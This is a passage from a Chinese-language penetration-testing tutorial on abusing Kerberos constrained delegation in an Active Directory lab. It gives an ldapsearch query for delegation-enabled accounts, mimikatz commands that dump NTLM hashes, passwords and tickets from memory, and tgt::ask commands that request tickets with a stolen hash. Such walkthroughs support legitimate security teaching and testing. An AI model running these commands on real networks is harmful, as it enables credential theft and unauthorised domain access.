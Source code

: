 **查询约束委派的用户：**

`ldapsearch -LLL -x -H ldap://IP:389 -D "user@pentest.com" -w "123456" -b dc=pentest,dc=com "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto`

#### [](#322-%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E5%88%A9%E7%94%A8)3.2.2 约束委派的利用

##### [](#3221-%E5%B8%B8%E8%A7%81%E6%83%85%E5%86%B5)3.2.2.1 常见情况

已知在约束委派的情况下，服务用户只能获取某个用户或者主机的服务 ST，只能用模拟用户访问特定的服务，是无法获取用户的 TGT 的，如果能够获得到开启了约束委派的服务的用户的明文密码或者 hash 就可以伪造 S4U 的请求，进而伪造服务用户以任意账户的权限访问服务的 ST。

**先抓出主机账户的 NTLM Hash 值：**

`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126143432.png-water_print](assets/1699409170-cbd218d816ef6d8fa9c85caf8628e51e.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126143432.png-water_print")

**申请 TGT：**

信息

如果拥有服务用户登录的主机权限，可以用 `mimikatz` 直接从内存中把服务用户的 TGT dump 出来，可以跳过申请 TGT 这个步骤，直接用 mimikatz 导出 TGT：

`mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit`

NTLM Hash 和密码都可以：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>tgt::ask /user:win7$ /domain:pentest.com /ntlm:<抓取到的哈希><br>tgt::ask /user:win7$ /domain:pentest.com /password:12345<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126145859.png-water_print](assets/1699409170-1b04c4aa346319f76fc8f4fe6507d2c1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126145859.png-water_print")
